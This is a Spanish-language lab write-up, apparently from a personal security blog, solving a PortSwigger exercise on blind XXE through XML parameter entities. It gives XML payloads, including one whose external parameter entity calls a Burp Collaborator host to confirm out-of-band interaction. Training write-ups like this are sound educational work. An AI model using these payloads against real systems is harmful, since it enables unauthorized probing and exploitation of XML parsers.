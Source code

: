 ```yaml
---
title: Blind XXE with out-of-band interaction via XML parameter entities
description: Laboratorio de Portswigger sobre XXE
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Blind XXE with out-of-band interaction via XML parameter entities
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza la entrada XML, pero `no muestra valores inesperados` y `bloquea` las `solicitudes` que contienen `entidades externas regulares`. Para resolver el laboratorio, debemos utilizar una `entidad` de `parámetro` para que el `analizador XML` realice una `búsqueda DNS` y una `solicitud HTTP` a `Burp Collaborator`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-4/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-4/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-4/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La da un `error` al `enviar` la `petición`, esto se debe a que `no` podemos `llamar` a una `entidad` desde los campos existentes, en este caso la `entidad` declarada es `xxe`

![](/assets/img/XXE-Injection-Lab-4/image_4.png)

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-4/image_5.png)

